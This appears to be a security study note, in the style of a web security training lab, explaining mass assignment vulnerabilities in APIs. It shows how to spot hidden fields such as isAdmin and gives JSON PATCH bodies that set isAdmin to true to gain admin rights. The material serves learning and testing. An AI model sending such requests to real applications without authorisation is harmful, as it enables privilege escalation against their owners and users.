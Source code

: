 # 05. Mass assignment vulnerabilities

## 🧬 **Mass Assignment (Auto-binding)**

> 🛠️ Mass assignment (also known as auto-binding) can inadvertently create hidden parameters.
> 

It happens when software frameworks **automatically bind request parameters** to fields on an internal object.

⚠️ This may result in the application supporting parameters that were **never intended** to be processed by the developer.

---

## 🕵️ **Identifying Hidden Parameters**

Because mass assignment creates parameters from object fields, you can often discover them by **manually examining objects** returned by the API.

---

### 🔍 **Example:**

### PATCH Request:

```json
{
    "username": "wiener",
    "email": "wiener@example.com"
}

```

### Concurrent GET Request:

```json
{
    "id": 123,
    "name": "John Doe",
    "email": "john@example.com",
    "isAdmin": "false"
}

```

🎯 This may indicate that hidden parameters like `id` and `isAdmin` are **bound to the internal user object**, alongside the visible `username` and `email`.

---

## 🧪 **Testing Mass Assignment Vulnerabilities**

### 🔧 Try Updating Hidden Parameters

Send a PATCH request with the hidden parameter included:

```json
{
    "username": "wiener",
    "email": "wiener@example.com",
    "isAdmin": false
}

```

---

### 🚫 Send an Invalid Value

Try an invalid value to observe different behavior:

```json
{
    "username": "wiener",
    "email": "wiener@example.com",
    "isAdmin": "foo"
}

```

🔎 If the app behaves **differently**, it may suggest:

- The **invalid value impacts** query logic
- But the **valid value is silently ignored**
- This could indicate that the parameter is being **processed internally**

---

### ⚔️ Exploit the Vulnerability

Now try setting the `isAdmin` value to `true`:

```json
{
    "username": "wiener",
    "email": "wiener@example.com",
    "isAdmin": true
}

```

🚨 If this value is bound **without proper validation or sanitization**, the user `wiener` may gain **admin privileges**!

---

### 🔎 Verify the Exploit

Browse the application as `wiener` and check whether you now have access to **admin functionality**.

✅ If yes, you’ve confirmed a **mass assignment vulnerability**.